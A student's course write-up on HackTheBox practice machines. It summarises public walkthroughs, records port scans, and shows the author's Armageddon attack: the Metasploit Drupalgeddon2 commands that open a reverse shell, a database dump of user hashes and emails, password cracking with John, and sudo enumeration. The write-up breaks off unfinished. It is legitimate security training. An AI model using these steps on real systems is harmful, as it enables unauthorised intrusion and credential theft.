

# H5 - Walktrough

Solutions for week five [assignments](https://terokarvinen.com/2021/hakkerointi-kurssi-tunkeutumistestaus-ict4tn027-3005/#h5-walktrough).

## Table of Contents

* [Assignments](#assignements)
  * [z) Read and reference materials](#z-read-and-reference-materials)
  * [a) Try tool](#a-try-tool)
  * [b) Recon and analyze 5 htb](#b-recon-and-analyze-5-htb)
  * [c) Identify 1-3 walkthrough(s)](#c-identify-1-3-walkthroughs)
  * [h) Hack a box from HackTheBox](#h-hack-a-box-from-hackthebox)
* [References](#references)

---

## Assignments

### z) Read and reference materials

- three walktrough articles
  - [HTB: Laboratory](https://0xdf.gitlab.io/2021/04/17/htb-laboratory.html)
    - nmap found http and ssh
      - running on ubuntu 20
      - ssl certificates laboratory.htb and git.laboratory.htb
      - redirect HTTP to HTTPS
    - VHOST FUZZ
      - no additional information
    - browsing the web servers
      - laboratory.htb site is for InfoSec services
        - probably some php or static site
      - git.laboratory.htb is GitLab server
        - was able to register to the site
        - found sourcecode for the labratory site
          - owner was Dexter
    - directory brute force
      - no additional information
    - exploit Gitlab vulnerability - CVE-2020-10977
      - access Dexter users shell
      - reset his password
    - from shell managed to escalate privileges to root using Docker security weakness
    ---
  - [HTB: Luanne](https://0xdf.gitlab.io/2021/03/27/htb-luanne.html)
    - nmap found three open TCP ports, SSH (22), HTTP (80), and Medisa httpd / Supervisor process manager (9001)
    - supervisord default credentials (user / 123) worked
    - httpd(nginx) is proxying requests to localhost:3000 running a lua script weather api
    - using vulnerability in the LUA script was able to get fifo shell access through http injection
    - found http basic auth token encrypted with md5crypt hash
    - hashcat decodes it to iamthebest and was able to login to the web server
    - found single user r.michaels
      - running dev version of the weather api runing on :3001
      - found public folder and managed to login using the credentials above
      - found ssh public key
      - got shell access to r.michaels
    - user has root access, but it requires a password
      - found backups from the server, which contained the root password
    - The vulnerability in the LUA API was in how the error JSON message is created
    ---
  - [HTB: Optimum](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)
    - nmap found only one open TCP port, HTTP (80)
      - HttpFileServer 2.3 (HFS)
        - has a vulnerability - https://nvd.nist.gov/vuln/detail/CVE-2014-6287
        - exploited the vulnerability to get reverse shell access
      - System was vulnerable to MS16-032, so exploiting that gave System(root) - privileges
    ---
- three walktrough videos
  - [Stapler1 walkthrough video](https://www.youtube.com/watch?v=cSOAzEQHlh0)
    - [VulnHub.com, Stapler1](https://www.vulnhub.com/entry/stapler-1,150/)
    - NMAP finds a lot of ports - ftp, ssh, dns, ntp, netbios, samba, doom?, mysql and apache web server
    - anonymous FTP login works
      - found note to Elly from John about payload
    - browsing the website finds us few paths
      - phpMyAdmin
      - admin
      - blog
    - server is running wordpress
      - scan finds multiple vunlerabilities, but none were exploitable
      - bruteforcing wp login returns us a single working user login - john / incorrect
    - managed to get reverse shell to the wordpress
      - uploaded malicious php file through wordpress plugins that calls back to the attackers laptop and gives reverse shell access
        - www-data user and group
    - upgrade privileges to root
      - double-fdput exploit
    - get phpMyAdmin access
      - wp-config.php has the admin credentials
    ---
  - [Raven1 walktrough video](https://www.youtube.com/watch?v=Aha7JWSIfSI)
    - [VulnHub.com, Raven1](https://www.vulnhub.com/entry/raven-1,256/)
    - three open ports - ssh, http and rpcbind
    - web server was running wordpress
    - scanning wordpress found few users
    - bruteforced ssh login with the these two users
    - logged in to wordpress database with default credentials
    - found hashed user passwords
    - used john to crack these hashes
      - steven:pink84
      - steven could run python without password
    - escalated privileges by running python
    ---
  - [Me and my Girlfriend: 1 walktrough video](https://www.youtube.com/watch?v=Odi5bje-Eas)
    - [VulnHub.com, Me and my Girlfriend: 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)
    - port scans find two open ports - SSH and HTTP
    - web server tells us to use X-Forwarded-For header to pretend we are local user
    - using the header we get access to web server
    - find login page from the webserver
    - can get user information by changing query parameter
      - find all userrs
      - find password from inspecting source
    - managed to SSH into the system with the credentials
    - managed to upgrade privileges to root
      - user was able to run PHP without password
      - change root password hash to alices password hash in /etc/shadow

---

## a) Try tool

- [wp-scan](https://github.com/wpscanteam/wpscan)
  - scan wordpress sites for vulnerabilities
- [JohnTheRipper](https://www.openwall.com/john/)
  - crack hashes
- [nikto](https://github.com/sullo/nikto)
  - web server vulnerability scanner
- [DirBuster](https://tools.kali.org/web-applications/dirbuster#:~:text=DirBuster%20is%20a%20multi%20threaded,pages%20and%20applications%20hidden%20within.)
  - scan for directories and files names on a web servers
- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  - payload generator

---

## b) Recon and analyze 5 htb

- [Delivery](https://app.hackthebox.eu/machines/Delivery)
  - OS: Debian 10
  - Ports
    - 22/tcp - SSH
      - OpenSSH 7.9p1
    - 80/tcp - HTTP
      - Nginx 1.14.2
        - old version - 2018
    - 8065/tcp - Unknown
      - would be interesting
- [ScriptKiddie](https://app.hackthebox.eu/machines/ScriptKiddie)
  - OS: Ubuntu
  - Ports
    - 22/tcp - SSH
      - OpenSSH 8.2p1
    - 5000/tcp - HTTP
      - Werkzeug httpd 0.16.1
      - Python
      - Would be my starting point
- [Spectra](https://app.hackthebox.eu/machines/Spectra)
  - OS: Linux ?
  - Ports
    - 22/tcp - SSH
      - OpenSSH 8.1 (protocol 2.0)
    - 80/tcp - HTTP
      - Nginx 1.17.4
    - 3306/tcp - MySQL
      - MySQL server
    - 8081/tcp - ??
      - blackice-icecap?
      - Would probably try to investigate this service as it looks interesting
- [Armageddon](https://app.hackthebox.eu/machines/Armageddon)
  - OS: Ubuntu ?
  - Ports
    - 22/tcp - SSH
      - OpenSSH 7.6p1
    - 80/tcp - HTTP
      - Apache/2.4.29
      - old version - 2017
      - probably vulnerable
- [Love](https://app.hackthebox.eu/machines/Love)
  - OS: Windows 7 - 10
  - Ports
    - 80/tcp - HTTP
      - Apache 2.4.46
    - 135/tcp - msrpc
      - Microsoft Windows RPC
    - 139/tcp - netbios-ssn
      - Microsoft Windows netbios-ssn
    - 443/tcp - HTTPS
      - Apache 2.4.46
    - 445/tcp - microsoft-ds
    - 3306/tcp - MySQL
      - MariaDB
    - 5000/tcp - HTTP
      - Apache 2.4.46
  - Don't know much about windows services, so would need to do a lot of investigation.

---

## c) Identify 1-3 walkthrough(s)

- [Armageddon](https://www.youtube.com/watch?v=ChDLsU1Uwl8)
  - Youtube video by WuDaDaDANG
  - Tools used
    - NMAP
    - drupalageddon2 exploit
    - PHP in memory reverse shell
  - Own testing
    - I opened up Metasploit and scanned the target with nmap

      ```shell
      sudo msfconsole
      db_nmap -A -T4 10.10.10.233
      ```

    - found same services as shown in the walktrough
    - I wanted to check if the target is vulnerable to Drupalgeddon2 exploit

      ```shell
      search druplageddon2
      use 0
      set RHOSTS 10.10.10.233
      check
      ```

    - Metasploit told me that the target was vulnerable so I wanted to try if I could get a reverse shell to target

      ```shell
      set LHOST 10.10.14.95
      exploit
      ```

    - I had reverse shell access to the target server

      


---

## h) Hack a box from HackTheBox

I already had access to Armaggeddon machine, so I wanted to continue to see, if I could get root access.

I started by looking at what user I was and what files I had access to. I noticed I was the apache user and I had access to /var/www/html directory, which is the web servers directory.

I started browsing what files there were and I found one particularly intereseting file at /var/www/html/sites/default/settings.php, which contained the login credentials to the database.

- Next I started browsing the database for interesting information:

  ```shell
  mysql --host localhost --user drupaluser --password --database drupal
  use drupal;
  select * from users;
  show;
  ```

- I got the hashed passwords, that I needed to solve

  | uid | name | pass | mail | theme | signature | signature_format | created | access |
  |-|-|-|-|-|-|-|-|-|
  |0|NULL|0|0|0|0|NULL|0|NULL|
  |1|brucetherealadmin|$HASH_REMOVED_AS_BOX_IS_ACTIVE|admin@armageddon.eu|filtered_html|1606998756|1620130642|1620129461|1|Europe/London|0|admin@armageddon.eu|a:1:{s:7:"overlay";i:1;}|
  |3|test|$HASH_REMOVED_AS_BOX_IS_ACTIVE|test@htb.eu|filtered_html|1620103868|0|0|0|Europe/London|0|test@htb.eu|NULL|
  |4|ramkrishna|$HASH_REMOVED_AS_BOX_IS_ACTIVE|darkmovestudios@gmail.com|filtered_html|1620104172|0|0|0|Europe/London|0|darkmovestudios@gmail.com|NULL|
  |5|gml63248|$HASH_REMOVED_AS_BOX_IS_ACTIVE|gml63248@zwoho.com|filtered_html|1620117834|0|0|0|Europe/London|0|gml63248@zwoho.com|NULL|

- I decided to try and see, if I could crack the hash with John

  ```shell
  echo -n $BRUCEPASSWORDHAS > bruce.txt
  john bruce.txt -w$(zcat /usr/share/wordlists/rockyou.tgz)
  ```

- One match found for brucetherealadmin's password and I managed to login as bruce with that password
- I tried to list bruces sudo permissions

  ```shell
  sudo -l

  Matching Defaults entries for brucetherealadmin on armageddon:
      !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
      LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
      LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
      XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

  User brucetherealadmin may run the following commands on armageddon:
      (root) NOPASSWD: /usr/bin/snap install *
  ```

- Additionally I found a file called users.txt, that from bruces home directory that contained some kind of a hash
- At this point I had no idea what to do so I started researching on how to exploit snap

<b>TBA Later!</b>

---

## References

- [terokarvinen.com, H5 assignments](https://terokarvinen.com/2021/hakkerointi-kurssi-tunkeutumistestaus-ict4tn027-3005/#h5-walktrough)
- [0xdf.gitlab.io, HTB: Laboratory](https://0xdf.gitlab.io/2021/04/17/htb-laboratory.html)
- [0xdf.gitlab.io, HTB: Luanne](https://0xdf.gitlab.io/2021/03/27/htb-luanne.html)
- [0xdf.gitlab.io, HTB: Optimum](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)
- [Stapler1 walkthrough video](https://www.youtube.com/watch?v=cSOAzEQHlh0)
- [Vulnhub.com, Stapler1](https://www.vulnhub.com/entry/stapler-1,150/)
- [Raven1 walktrough video](https://www.youtube.com/watch?v=Aha7JWSIfSI)
- [VulnHub.com, Raven1](https://www.vulnhub.com/entry/raven-1,256/)
- [Me and my Girlfriend: 1 walktrough video](https://www.youtube.com/watch?v=Odi5bje-Eas)
- [VulnHub.com, Me and my Girlfriend: 1](https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/)
- [wp-scan](https://github.com/wpscanteam/wpscan)
- [JohnTheRipper](https://www.openwall.com/john/)
- [nikto](https://github.com/sullo/nikto)
- [DirBuster](https://tools.kali.org/web-applications/dirbuster#:~:text=DirBuster%20is%20a%20multi%20threaded,pages%20and%20applications%20hidden%20within.)
- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
- [HackTheBox.eu, Delivery](https://app.hackthebox.eu/machines/Delivery)
- [HackTheBox.eu, ScriptKiddie](https://app.hackthebox.eu/machines/ScriptKiddie)
- [HackTheBox.eu, Spectra](https://app.hackthebox.eu/machines/Spectra)
- [HackTheBox.eu, Armageddon](https://app.hackthebox.eu/machines/Armageddon)
- [HackTheBox.eu, Love](https://app.hackthebox.eu/machines/Love)
- [Youtube.com, Armageddon by WuDaDaDANG](https://www.youtube.com/watch?v=ChDLsU1Uwl8)
